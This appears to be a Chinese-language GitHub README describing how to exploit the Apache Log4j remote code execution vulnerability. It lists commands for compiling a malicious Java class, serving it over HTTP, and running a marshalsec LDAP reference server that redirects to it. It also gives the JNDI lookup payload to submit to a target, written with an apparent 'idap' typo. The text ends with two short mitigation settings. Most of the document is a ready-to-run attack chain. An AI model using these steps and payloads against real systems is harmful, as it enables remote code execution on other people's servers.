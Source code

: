 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

### 触发步骤


1. 先编译Log4jRCE，这个是恶意java代码,需要预先编译成恶意java类。注意不要用版本太高的jdk编译，不然jdk低版本的靶机可能无法执行。随后启动http server
   1. cd 切换到存放Log4jRCE.java的文件夹内
   2. 编译 `javac Log4jRCE.java`生成Log4jRCE.class
   3. 启动一个http server，python或php均可快速启动，如`php -S 0.0.0.0:8888`

2. 使用marshalsec的ldap server，访问这个ldap server内的任意资源都会被自动转发到http server的固定资源，这里需要转发到http server中的恶意java类文件
   1. 先clone这个项目`git clone https://github.com/mbechler/marshalsec.git`
   2. cd切换进这个项目内`cd marshalsec`
   3. 构建项目jar包`mvn clean package -DskipTests`
   4. 启动ldap server并配置转发到之前启动的http server内的资源（原理是访问这个ldap服务的任意路由，都会获得http server内的一个固定资源） `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://(这里写http server在公网上的地址及端口)/#Log4jRCE"`
      此时对靶机提交`${jndi:idap://<ip>:<port>}`即可(如出现marshalsec转发请求到http server异常的情况，修改利用参数为`${jndi:idap://<ip>:<port>/cn=<Log4jRCE>}`)，ldap server会自动从http server中下载指定资源并返回给靶机。
3. log4j.java是一个简单的漏洞环境实现，在代码中对应位置写好ldap的地址即可。底层原理就是靶机会远程下载Log4jRCE.class，然后执行newInstance()，所以会执行static、构造函数代码。

### 修复方案：

（1）修改jvm参数
-Dlog4j2.formatMsgNoLookups=true

（2）修改配置
在应用classpath下添加log4j2.component.properties配置文件，log4j2.formatMsgNoLookups=true

